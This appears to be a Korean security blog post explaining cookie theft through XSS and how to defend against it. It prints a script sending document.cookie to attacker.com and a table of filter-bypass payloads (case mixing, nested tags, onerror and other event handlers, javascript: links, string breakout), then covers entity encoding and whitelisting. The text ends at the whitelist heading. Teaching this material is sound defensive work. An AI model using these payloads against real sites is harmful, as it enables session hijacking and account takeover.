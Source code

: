 ```yaml
---
layout: post
title: "Cookie 탈취와 XSS 공격 – 원리와 예제 정리"
date: 2025-06-22 10:00:00 +0900
categories: [XSS]
tags: [XSS, Cookie, HTML Entity, 스크립트 우회]
---
```



## **Cookie 탈취**
1. 쿠키는 사용자의 인증 정보를 담고 있어, 이를 탈취하면 세션을 가로채어 로그인 없이도 해당 사용자로 가장할 수 있습니다.  
2. 하지만 이 쿠키는 **도메인 단위로 격리**되어 있기 때문에, 아무 웹페이지에서나 다른 사이트의 쿠키를 훔치는 건 불가능합니다.

## **쿠키 탈취를 위한 XSS 스크립트 예제**
XSS(크로스 사이트 스크립팅) 취약점이 있는 웹사이트에 아래와 같은 스크립트를 삽입하면,  
사용자의 쿠키를 공격자 서버로 전송할 수 있습니다.

```html
<script>
  // ① 현재 사용자의 쿠키 정보를 읽어온다
  var cookieData = document.cookie;

  // ② 이미지를 요청하는 방식으로 공격자 서버에 쿠키를 전송
  var i = new Image();
  i.src = "http://attacker.com/" + cookieData;
</script>
```
1.	document.cookie 로 현재 페이지(도메인)의 쿠키를 읽습니다.
2.	new Image() 는 브라우저가 자동으로 이미지 요청을 보내도록 유도합니다.
3.	i.src 에 공격자 서버 주소 + 쿠키값을 붙여 요청을 날립니다.

결국:
```html
GET http://attacker.com/uid=abc123;sessionid=xyz
```
이런 식의 요청이 사용자 브라우저 → 공격자 서버로 전송됩니다.  
공격자는 서버 로그나 스크립트로 이 값을 수집할 수 있습니다.

## **XSS 대응 방안 (HTML Entity..)**

XSS 대응 방안으로 필터링이라고만 말하면 너무 광범위하기 때문에 올바른 대답이 아닙니다.  

대응방안은 크게 두가지로 나눠집니다.  
- 블랙리스트 기반 필터링
- 화이트리스트 기반 필터링

### 1. 블랙리스트 기반 필터링 : 특정 단어를 필터링 하는 방식(ex, 게시판)
- 특정 단어만 필터링하는 방식이기 때문에 우회 가능성이 있습니다.
    - 예시 : <br>

| 구분           | 기존 입력                            | 필터링 결과                | 우회 입력                                 |
|----------------|---------------------------------------|----------------------------|-------------------------------------------|
| 기본 XSS 삽입 시도  | `<script>BAD CODE</script>`   |  삽입 성공                      |
| 외부 JS 로드      | `<script src="http://attacker.com/a.js"></script>`                      | 외부에서 자바스크립트 파일을 불러와 실행     |
| 대소문자 혼용   | `<script>`                             | `<script>` 문구가 치환되거나 삭제될때          | `<ScRipT></ScrIpT>`                |
| 태그 제거 필터링   | `<script>`                           | `<>`                       | `<scrscriptipt>` (중간에 `script` 삽입)              |
| 태그 왜곡      | `<script>`                             | `xript` 글자가 바뀌어나옴       | `<img scr=x onerror=”alert(1)”>` <br> img "x" 출력 -> 없음 -> 404, not found 에러 → onerror -> 알람(1) 실행 |
| 이벤트 핸들러 사용   | `<img src=x onerror="alert(1)">`                     | 이미지 로드 실패 시 onerror로 코드 실행 |
|                    | `<input type="text" onmouseover="alert(1)">`         | 마우스 올리면 실행됨 |
|                    | `<input onfocus="alert(1)" autofocus>`               | 페이지 로드시 자동 포커스 후 실행 |
|                    | `<button onclick="alert(1)">Click</button>`          | 버튼 클릭 시 실행 |
| href(location.href)    | `<a href="**javascript:alert(1)**">TEST</a>`            | 링크 클릭 시 자바스크립트 실행 |
| 삽입한 값이 스크립트 내부에 있는 경우   | `<script> var data = “____”;  </script>`         | “;alert(1);  또는 var a = “ | `<script> var data = ““;alert(1);var dummy = “”; </script>` <br> `<script> var data = “var a = “”; </script>`


- - HTML 특수 문자를 HTML Entity로 치환  
    - XSS 공격을 막기 위해서는 <, >, ", ' 이 네 가지 특수문자를 HTML 엔티티로 바꿔주는 것으로 큰 효과가 있습니다. 
        - 하지만, 티스토리처럼 직접 HTML을 편집할 수 있는 에디터가 있는 경우에는, HTML 엔티티를 쓰면 오히려 제대로 입력이 안 되거나, 에디터가 깨질 수 있어서 사용할 수 없습니다.

그런 경우에는 아래의 단계들을 통해 XSS 공격을 효과적으로 방지할 수 있습니다.
1.	HTML Editor 기능 비활성화
    - 가능하다면 HTML 에디터 자체를 제거하거나 제한합니다.
2.	HTML 특수문자 전체 치환
	- 모든 사용자 입력에 대해 < > " ' 등의 특수문자를 HTML Entity로 변환합니다.
    - 예: `<img>` → `&lt;img&gt;`
3.	허용할 태그만 다시 복구 (화이트리스트 기반)
	- 꼭 필요한 태그들만 복원합니다.
    - 예: img, a, h1, h2, h3 등 허용 (이때 복원된 태그 외의 나머지 태그는 전부 무시되거나 차단됩니다.)
4.	복원된 태그 안의 이벤트 핸들러 필터링 (블랙리스트 기반)
	•	onerror, onload, onclick 같은 이벤트 핸들러 속성은 제거

### 2. 화이트 리스트 기반 필터링 : 특정 단어만 통과시키고 나머지는 모두 차단하는 방식
